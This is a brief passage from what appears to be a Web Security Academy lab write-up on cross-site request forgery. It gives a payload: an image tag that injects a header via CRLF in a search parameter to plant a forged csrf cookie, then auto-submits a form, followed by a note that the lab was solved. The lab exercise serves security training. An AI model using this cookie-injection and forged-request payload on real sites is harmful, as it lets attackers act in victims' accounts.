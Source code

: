     <img src="https://0acc00600485d43ce0bf9248005600f2.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit()">

![img](https://imgur.com/olpn21w.png)

Click Deliver exploit to victim.

Solved the lab!

![img](https://imgur.com/7taJq2S.png)